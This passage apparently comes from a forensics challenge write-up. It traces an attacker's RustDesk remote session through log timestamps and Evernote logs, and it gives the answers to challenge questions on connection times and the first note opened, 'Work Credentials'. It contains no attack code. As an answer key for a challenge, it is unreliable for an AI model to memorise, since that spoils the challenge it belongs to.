  
</div>

Further examination inside RustDesk's server folder, especially on `RustDesk_rCURRENT.log`, we found out that the attacker had successfully opened a connection on `2026-05-14 19:18:41.024229 +07:00`.

<div align="center">
  
</div>

Since the question asked for the UTC timezone, we subtract 7 hours from it to get the answer.

> Answer: 2026-05-14 12:18:41

<br>

## Question 15

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
During the RustDesk session, the attacker viewed sensitive notes in Jimmy's note-taking app. <b>Based on the application logs, what is the title of the first note opened?</b>
</td>
</tr>
</table>

<br>

My first instinct was to continue examining all the RustDesk logs, but I got no luck.

I then noticed that the user had **Evernote** installed, a cross-platform note-taking and personal knowledge management application.

<div align="center">
  
</div>

Further examination with Evernote's Prefetch confirmed that the user did execute and use the application.

<div align="center">
  
</div>

From this point, I shifted my focus to every Evernote artifact I could find, especially its logs. A quick search revealed that Evernote stores its logs under `C:\Users\%Username%\AppData\Roaming\Evernote\logs\`.

<div align="center">
  
</div>

After inspecting the log for a while, especially from timestamp `2026-05-14 12:18:41` onward (which was when the attacker first accessed Jimmy's system), we found out that the attacker opened a note named **Work Credentials** approximately 3 minutes after accessing the system.

<div align="center">
  
</div>

> Answer: Work Credentials

<br>

## Question 16

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Determine when the interactive remote session ended. <b>At what timestamp did the threat actor close their RustDesk connection?</b>
</td>
</tr>
</table>

<br>

To determine the connection termination timestamp, we continue examining the RustDesk log file. The connection was found to be terminated at `2026-05-14 19:26:12.533219 +07:00`, which is approximately 8 minutes after the opened connection.

<div align="center">
  
</div>

> Answer: 2026-05-14 12:26:12 UTC (19:26:12 +07:00)
